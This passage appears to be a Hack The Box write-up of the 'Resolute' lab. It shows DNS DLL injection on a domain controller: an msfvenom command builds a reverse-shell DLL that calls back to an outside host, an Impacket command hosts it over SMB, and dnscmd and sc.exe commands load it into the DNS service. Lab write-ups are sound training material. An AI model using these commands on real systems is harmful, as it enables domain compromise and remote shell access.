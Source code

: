 #### DNS DLL Injection

##### Step 1: Create a DLL Payload

While both articles linked above have information on creating a custom payload, I chose to use `msfvenom` to create one quickly. `msfvenom` is Metasploit's payload generation tool.

Command used to create the payload:  
`msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.15.119 LPORT=9001 -f dll > lamp.dll`

-a = architecture  
-p = payload choice  
-f = file type  

##### Step 2: Host payload on local SMB Server

Following some advice in Sharma's article, I hosted my malicious DLL on a local samba share, using Impackets smbserver.py.

Command to host file:

`sudo python /opt/impacket/examples/smbserver.py myShare .`

This creates a share called "myShare", and it hosts files in the current directory.

##### Step 3: Execute Payload on Domain Controller

Now we have our payload created and hosted, its time to execute it on the Domain Controller. For the exploit to work, we must first set the DNS DLL plugin to be our malicious DLL, then restart the DNS service.

~~~powershell
dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.15.119\myShare\lamp.dll
sc.exe \\10.10.10.169 stop dns
sc.exe \\10.10.10.169 start dns
~~~

If we have a netcat listener on 9001, we *should* get a reverse shell back!

Here is the exploit path on the Domain Controller in picture form.

{:refdef: style="text-align: center;"}
![SMB Logs](../../assets/img/writeups/htb/resolute/exploit_path.png)
{: refdef}
